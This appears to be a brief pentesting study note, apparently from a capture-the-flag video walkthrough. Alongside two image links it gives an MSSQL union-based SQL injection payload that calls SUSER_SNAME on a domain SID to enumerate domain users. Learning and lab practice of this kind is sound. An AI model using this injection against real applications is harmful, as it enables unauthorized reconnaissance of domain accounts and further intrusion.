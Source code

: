 ![image-20221225005712861](./images/image-20221225005712861.png)



![image-20221225012014922](./images/image-20221225012014922.png)



enum domain user via mssql ; from ipsec video.

```sql
a' union select 1,2,3,SUSER_SNAME(domain sid),5-- -
```



